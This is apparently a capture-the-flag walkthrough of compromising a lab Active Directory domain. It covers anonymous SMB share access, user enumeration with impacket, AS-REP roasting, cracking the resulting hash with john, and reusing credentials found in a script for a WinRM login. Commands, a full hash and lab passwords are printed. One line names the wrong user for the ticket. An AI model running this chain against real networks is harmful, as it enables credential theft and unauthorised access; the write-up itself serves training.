 We can connect to the `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous`  shares

`smbclient \\\\10.10.189.145\\share_name`

We grab 6 txt files and can enum user names? from them
```
Johnny Leet
Tony Skid
Jack Goldenhand
Alexa Whitehat
```

---

we can use impacket's `lookupsid.py` to enumerate users
`python3 lookupsid.py guest@10.10.127.164`

This gives us a list of user names
```
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

---

### checking for asrep roasting

Now that we have user names, we throw them into a users.txt file and check to see if they are vulnerable to asrep roasting

`python3 /tmp/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -dc-ip 10.10.127.164 -request -no-pass`

This returns a TGT ticket for a-whitehat
`$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:667424d94b7a72983e3e793ec301e7e3$be00d5d0cb8f633d9ee19f00d7dd51cc94e891b27f1da985d0a683fee25617c465327be3ee865cbed48857903b23a0ac1e3ee2c2c2cca5e89f8995baf11bf2cbf0ddf37306261e20e7b75695945f4ae5fde75613473be2dd5085dc981c4643be869eea513fc622821d682ac0ce92d5ab7c89284a1886ba9378429ea71d7481ccd13c3271762ada8fc23111e0810225d3d0bf542ddf796825c5d7d795540c553911bd783b9d5a17a954c7511168753b329ab9d60a75bdc4a549091843c84025ee7633116ed7387f0a32fe9f0257bd5e41e667dd342ebc8af377273b83f40d71b02b7f0f75e0ea3b8e0a26599e35bb8940dbf1b7dd3a26`

We can then crack this by throwing it into `crack.txt` and running john
`john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt`

This gives us the password `tj072889*`

---

now that we have creds, we can try to access SYSLOG and NETLOGON smb shares with t-skid's creds

`smbclient \\\\10.10.127.164\\SYSLOG -U t-skid`

This gives us a bunch of files, namely `resetpassword.vbs`
which contain's a-whitehat's creds

`a-whitehat:bNdKVkjv3RR9ht`

We can user `evil-winrm` with a-whitehat's creds to grab the user.txt in `c:\users\enterprise-core-vn\desktop`

